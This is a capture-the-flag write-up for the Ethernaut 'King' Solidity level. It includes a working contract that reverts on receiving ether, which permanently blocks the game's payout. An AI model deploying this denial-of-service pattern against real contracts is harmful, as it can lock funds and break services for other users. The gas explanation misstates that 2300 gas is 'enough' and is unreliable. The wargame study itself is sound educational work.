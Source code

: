 # [9. King](https://ethernaut.openzeppelin.com/level/0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5)

The ponzi starts with 0.001 ether. We can exploit the game by giving an equal/larger ether, but via a contract that disallows receiving ether. This way, if someone is eligible to be the new king, the transaction will fail when it tries to send us the prize!

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;
 
contract OneWayForward {  

  receive () external payable {
  revert("Im the king!");
  }

  fallback () external payable {
  revert("Im the king!");
  }
  
  function forward(address payable _to) public payable {
  (bool sent, ) = _to.call{value: msg.value}("");
  require(sent, "forwarded call failed");
  }

}
```

## Preventing Money Transfer

The contract is simple: a forward function forwards our sent money to some address. The recieving address will know the contract as `msg.sender`, however they won't be able to send money back. Preventing to recieving money can be done by **not** implementing `receive` and `fallback` functions. In my case, I wanted to be a little bit cheeky and I implement them but inside revert with "Im the king!" message when they send me money ;)

## Call vs. Transfer

Another important point: we used `_to.call{value: msg.value}("")` instead of `_to.transfer(msg.value)`. This is because `transfer` sends 2300 gas to the receiver, but that gas is enough for the code to run on their side; so we must forward all our gas to them with `call`.
